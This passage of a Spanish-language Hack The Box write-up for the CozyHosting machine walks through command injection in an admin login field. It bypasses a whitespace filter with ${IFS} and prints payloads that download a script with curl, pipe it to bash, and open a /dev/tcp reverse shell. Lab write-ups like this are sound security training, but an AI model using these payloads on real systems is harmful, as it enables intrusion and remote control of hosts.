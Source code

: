 ![](/assets/img/htb-cozyHosting/7.png)

Observa como al final sale: **/bin/bash: line 1: whoami@c4rta: command not found**

Ahora con esto sabemos que interpreta bash, y esto es potencialmente un **Command injection**

## Command injection


Si intentamos hacer uso de un **echo**, nos va a salir que no aceptan espacios:

```ruby
Location: http://cozyhosting.htb/admin?error=Username can't contain whitespaces!
```
No es un problema, por que en GNU/Linux hay una variable de entorno que se llama **IFS** la cual contiene separadores de palabras, si le hacemos un echo, vemos que sale todo blanco, pero en realidad hay un espacio

![](/assets/img/htb-cozyHosting/8.png)

Asi que podemos usar IFS para interpretar el espacio y hacer bypass de ese filtro, para probar si podemos ejecutar comandos, nos podremos en escucha por tcpdump por la interfaz tun0:

```ruby
tcpdump -i tun0 -n icmp
```

Y en el username lo indicaremos asi:
```bash
;ping${IFS}<ip>;
```

Observa como pudimos ejecutar el ping

![](/assets/img/htb-cozyHosting/9.png)

Ya esta confirmadisimo que podemos ejecutar comandos, asi que nos mandaremos una reverse shell:

```ruby
;curl${IFS}<ip>:8080/pwn.sh|bash;
```

En el pwn.sh tengo esto:

```ruby
bash -i >& /dev/tcp/<ip>/4444 0>&1
```

Y nos deberia de llegar una rev shell

## Moviento laterial: app --> josh y flag de user

Al listar el cotenido podemos ver que tenemos un jar

```ruby
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
```
